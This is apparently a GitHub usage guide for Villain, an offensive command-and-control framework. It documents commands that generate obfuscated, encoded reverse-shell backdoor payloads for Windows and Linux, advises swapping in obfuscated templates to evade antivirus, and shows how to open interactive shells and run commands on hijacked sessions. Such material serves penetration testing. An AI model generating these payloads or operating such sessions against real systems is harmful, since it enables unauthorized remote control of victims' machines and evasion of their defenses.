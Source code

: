 # Usage Guide
:warning: Villain was explicitly developed and tested on **kali linux**.  
:warning: This guide is a work in progress currently describing key features. Check out Villain's introduction on youtube for more info.

## Table of contents
1. [Generate Backdoor Payloads](#Generate-Reverse-Shell-Commands)
2. [Connect With Sibling Server](#Connect-With-Sibling-Server)
3. [The shell Command](#The-shell-Command)
4. [The exec Command](#The-exec-Command)

## Generate Reverse Shell Commands
Use the `generate` prompt command to generate payloads for Windows / Linux machines. 
In the latest Villain release, this function was redesigned to use payload templates (files). In `Core/payload_templates/<OS>/<HANDLER>/` you can find these templates, edit them, make your own, etc. Ultimately, you should replace the predefined Windows reverse shell commands with obfuscated versions. That way you can create a personalized instance of Villain and deal with AV evasion in a more productive and efficient way. Here's how 📽️ -> [youtube.com/watch?v=grSBdZdUya0](https://www.youtube.com/watch?v=grSBdZdUya0)  

Main logic:
```
generate payload=<OS_TYPE/HANDLER/PAYLOAD_TEMPLATE> lhost=<IP or INTERFACE> [ obfuscate encode ]
```

Usage examples:
```
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 encode
generate payload=linux/hoaxshell/sh_curl lhost=eth0
```

- The ENCODE and OBFUSCATE keywords are enabled for certain templates and can be used during payload generation. 
- For info on a particular template, use "generate" with PAYLOAD being the only provided argument.
- To catch HoaxShell https-based reverse shells you need to start Villain with SSL.

⚡TCP socket based shells (netcat) are more stable and reliable than HoaxShell.
⚠️HoaxShell payloads are not reusable (will work only once). I will probably change that in the future.

Use the prompt commands `backdoors` and `sessions` to list info about your active shell sessions.

## Connect With Sibling Server
Use the `connect` prompt command to connect and share your shell sessions with another machine running Villain. 
```
connect <IP> <TEAM SERVER PORT>
```
By default, the Core server port is `65001` (you can change that with `-p` when starting Villain).

## The shell Command
Use the `shell` prompt command to start an interactive HoaxShell against a session. 
```
shell <SESSION ID or ALIAS>
```
Press Ctrl + C or type `exit` to return to the main Villain prompt.

## The exec Command
Use the `exec` prompt command to execute a **quoted command** or **script from your file system** against a session. 
```
exec </path/to/local/file> <SESSION ID or ALIAS>
exec 'net user;Get-Date' <SESSION ID or ALIAS>
```
